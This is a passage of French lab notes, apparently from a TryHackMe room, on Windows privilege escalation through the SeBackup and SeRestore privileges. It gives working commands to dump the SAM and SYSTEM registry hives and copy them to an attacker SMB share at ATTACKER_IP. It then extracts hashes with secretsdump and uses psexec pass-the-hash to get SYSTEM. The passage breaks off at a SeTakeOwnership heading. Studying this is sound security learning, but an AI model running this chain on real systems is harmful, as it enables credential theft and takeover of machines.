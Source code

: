 Les privilèges SeBackup et SeRestore permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place. L'idée derrière ce privilège est de permettre à certains utilisateurs d'effectuer des sauvegardes à partir d'un système sans avoir besoin de privilèges administratifs complets.

Avec ce pouvoir, un attaquant peut trivialement escalader les privilèges sur le système en utilisant de nombreuses techniques. Celle que nous allons étudier consiste à copier les ruches de registre SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.

Si on arrive à avoir accès à un compte "Backup Administrator", on aura d'office accès à ces privilèges. Il faudra lancer une invite de commande en mode administrateur.

Pour récupérer les fichiers de hash SAM et SYSTEM on peut faire les commandes suivantes :

```command prompt
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```

Cela créera quelques fichiers avec le contenu des ruches du registre. Nous pouvons maintenant copier ces fichiers sur notre machine attaquante en utilisant SMB ou toute autre méthode disponible. Pour SMB, nous pouvons utiliser impacket's smbserver.py pour démarrer un simple serveur SMB avec un partage réseau dans le répertoire courant de notre machine attaquante.

```bash
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username [Username] -password [password] public share
```
Cela créera un partage nommé public pointant vers le répertoire de partage, qui nécessite le nom d'utilisateur et le mot de passe de notre session Windows actuelle. Après cela, nous pouvons utiliser la commande copy dans notre machine Windows pour transférer les deux fichiers vers notre machine d'attaque.

```command prompt
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
On a plus qu'à utiliser  `impacket` pour récupérer les hachages des mots de passe des utilisateurs :

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
Nous pouvons enfin utiliser le hachage de l'administrateur pour effectuer une attaque de type "Pass-the-Hash" et accéder à la machine cible avec les privilèges SYSTEM.

```bash
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.2.123
```

### SeTakeOwnership

Le privilège SeTakeOwnership permet à un utilisateur de prendre possession de n'importe quel objet du système, y compris les fichiers et les clés de registre, ce qui offre à un attaquant de nombreuses possibilités d'élever ses privilèges, car nous pourrions, par exemple, rechercher un service fonctionnant en tant que SYSTEM et prendre possession de l'exécutable du service. Pour cette tâche, nous prendrons cependant un chemin différent.
